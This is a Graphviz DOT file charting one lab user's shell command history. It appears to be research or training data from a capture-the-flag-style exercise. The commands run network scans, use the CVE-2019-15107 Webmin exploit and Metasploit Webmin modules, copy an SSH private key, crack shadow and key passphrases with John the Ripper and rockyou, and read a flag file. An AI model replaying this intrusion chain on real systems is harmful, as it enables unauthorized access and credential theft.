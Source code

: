 // creating graph for user: 86
digraph {
	node [shape=box]
	0 [label="curl ipconfig.co U"]
	1 [label="dig +short myip.opendns.com U"]
	2 [label="nmap 172.18.1.5 -p 0-65535 M0 "]
	3 [label="nc 172.18.1.6:10000 U"]
	4 [label="nc 172.18.1.6 10000 U"]
	5 [label="wat U"]
	6 [label="nc 172.18.1.5 10000 U"]
	7 [label="git clone https://github.com/jas502n/cve-2019-15107 U"]
	8 [label="git clone https://github.com/jas502n/cve-2019-15107 U"]
	9 [label="python CVE_2019_15107.py http://172.18.1.5:10000 A13 "]
	10 [label="python CVE_2019_15107.py http://172.18.1.5:10000 id A13 "]
	11 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	12 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root A10 A13 "]
	13 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	14 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' M9 "]
	15 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -l /root' A10 A13 "]
	16 [label="ip a U"]
	17 [label="nmap 172.18.1.5 A1 "]
	18 [label="nmap 172.18.1.0/24 A1 "]
	19 [label="nmap 172.18.0.0/16 A1 "]
	20 [label="nmap 172.18.0.0/16 A1 "]
	21 [label="msf U"]
	22 [label="metaflac U"]
	23 [label="msfconsole M2 "]
	24 [label="use exploit/linux/http/webmin_backdoor M8 "]
	25 [label="msfconsole U"]
	26 [label="search webmin M3 "]
	27 [label="use exploit/unix/webapp/webmin_backdoor U"]
	28 [label="show targets A5 "]
	29 [label="set target 0 A6 "]
	30 [label="set target 1 A6 "]
	31 [label="show options M5 "]
	32 [label="set RHOSTS 172.15.1.5 M6 "]
	33 [label="set RPORT 10000 U"]
	34 [label="show U"]
	35 [label="show options U"]
	36 [label="exploit U"]
	37 [label="quit U"]
	38 [label="msfconsole U"]
	39 [label="search webmin U"]
	40 [label="use exploit/unix/webapp/webmin_show_cgi_exec U"]
	41 [label="show U"]
	42 [label="show targets U"]
	43 [label="show options U"]
	44 [label="set RHOST 172.18.1.5 U"]
	45 [label="set USERNAME dmin U"]
	46 [label="set USERNAME admin U"]
	47 [label="exploit U"]
	48 [label="set PASSWORD admin U"]
	49 [label="exploit U"]
	50 [label="ip a U"]
	51 [label="use exploit/unix/webapp/webmin_backdoor U"]
	52 [label="show targets U"]
	53 [label="set TARGET 0 U"]
	54 [label="show options U"]
	55 [label="set LHOST 10.1.135.83 U"]
	56 [label="set RHOST 172.18.1.5  U"]
	57 [label="exploit U"]
	58 [label="set TARGET 1 U"]
	59 [label="ssh eve@10.1.17.4 M16 "]
	60 [label="man xclip U"]
	61 [label="xclip -selection c -o > .ssh/id_rsa U"]
	62 [label="vim .ssh/id_rsa U"]
	63 [label="vim .ssh/id_rsa.pub U"]
	64 [label="ssh eve@10.1.17.4 U"]
	65 [label="chmod 0600 /root/.ssh/id_rsa M15 "]
	66 [label="ssh eve@10.1.17.4 U"]
	67 [label="ssh eve@10.1.17.4 U"]
	68 [label="nc -l 12345 U"]
	69 [label="ip a U"]
	70 [label="vim shadow U"]
	71 [label="vim passwd U"]
	72 [label="unshadow shadow passwd U"]
	73 [label="unshadow passwd shadow U"]
	74 [label="unshadow passwd shadow > mypasswd U"]
	75 [label="john mypasswd A14 "]
	76 [label="base64 -d U"]
	77 [label="cat .ssh/id_rsa M12 "]
	78 [label="cat .ssh/id_rsa.pub A1 A11 A17 "]
	79 [label="ls A10 "]
	80 [label="cp ~/.ssh/id_rsa U"]
	81 [label="cp ~/.ssh/id_rsa id_rsa U"]
	82 [label="localte ssh2john.py A14 "]
	83 [label="locate ssh2john.py A1 A10 A11 A14 A17 "]
	84 [label="python ssh2john.py id_rsa M13 "]
	85 [label="python ssh2john.py id_rsa > ssh.john A14 "]
	86 [label="john ssh.john A14 "]
	87 [label="john ssh.john A14 "]
	88 [label="cat .john/john.rec A1 A11 A14 A17 "]
	89 [label="fg U"]
	90 [label="john ssh.john A14 "]
	91 [label="wget https://github.com/praetorian-code/hob0rules/blob/master/wordlists/rockyou.txt.gz U"]
	92 [label="cat rockyou.txt.gz A1 A11 A17 "]
	93 [label="locate rockyou A1 A10 A11 A17 "]
	94 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 "]
	95 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt A14 "]
	96 [label="ls /usr/share/wordlists/rockyou.txt A10 "]
	97 [label="ll /usr/share/wordlists/rockyou.txt U"]
	98 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	99 [label="john ssh.john A14 "]
	100 [label="locate rocky A1 A10 A11 A17 "]
	101 [label="ls /usr/share/wordlists/ A10 "]
	102 [label="cd me U"]
	103 [label="ls /usr/share/wordlists/metasploit A10 "]
	104 [label="cd U"]
	105 [label="locate ssh2john.py A1 A10 A11 A14 A17 "]
	106 [label="diff ssh2john.py /usr/share/john/ssh2john.py A14 "]
	107 [label="ll U"]
	108 [label="ls A10 "]
	109 [label="python /usr/share/john/ssh2john.py id_rsa > ssh2.jogn A14 "]
	110 [label="diff ssh.john ssh2.jogn A14 "]
	111 [label="john ssh.john --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	112 [label="cat /usr/share/wordlists/rockyou.txt  A1 A11 A17 "]
	113 [label="cat /usr/share/wordlists/rockyou.txt  A1 A11 A17 "]
	114 [label="ssh eve@10.1.17.4 U"]
	115 [label="nice U"]
	116 [label="ls A10 "]
	117 [label="cd top-secret/ U"]
	118 [label="ls A10 "]
	119 [label="cat flag.txt M17 "]
	120 [label="ll /usr/share/wordlists/rockyou.txt U"]
	121 [label="ls -l /usr/share/wordlists/rockyou.txt A10 "]
	122 [label="exit U"]
	123 [label="john ssh.john -wordlist=/usr/share/wordlists/rockyou.txt U"]
	124 [label="john ssh.john -wordlist /usr/share/wordlists/rockyou.txt U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	rankdir=LR
}
